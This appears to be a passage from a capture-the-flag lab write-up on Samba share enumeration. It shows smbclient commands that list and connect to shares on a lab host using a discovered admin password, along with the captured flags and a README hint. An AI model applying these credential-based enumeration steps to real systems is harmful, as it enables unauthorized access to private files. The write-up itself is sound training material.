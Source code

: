 ```bash

Command: smbclient //192.168.74.132/confidential -U admin

The confidential share contains information about the next challenge.
```

**Findings:**

- Second flag captured: `FLAG{SSH_Access_Granted}`
- Additional flag captured: `FLAG{SSH_Admin_Access}`
- Admin password discovered: `angel`
- Samba access information discovered

![[Pasted image 20250416112120.png]]
![[Pasted image 20250416112239.png]]

### Challenge 3: Samba Share Enumeration

**Objective:** Access the Samba shares to find information about the next challenge.

**Steps:**

1. Listed available Samba shares

```bash
$ smbclient -L 192.168.74.132 -U admin
Password: angel

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk      Public Shares
        confidential    Disk      Confidential Files
        IPC$            IPC       IPC Service
```

2. Connected to the public share first


```bash
$ smbclient //192.168.74.132/public -U admin
Password: angel
smb: \> ls
  .                                   D        0  Jul 01 12:00 .
  ..                                  D        0  Jul 01 12:00 ..
  README.txt                          A      189  Jul 01 12:00 README.txt

smb: \> get README.txt
smb: \> exit
```

3. Examined the public share content


```bash
$ cat README.txt
This is a public Samba share accessible to everyone.
To access the confidential share, you need admin credentials.

Hint: If you have not accessed the admin SSH account yet, go back and complete that challenge first.
```
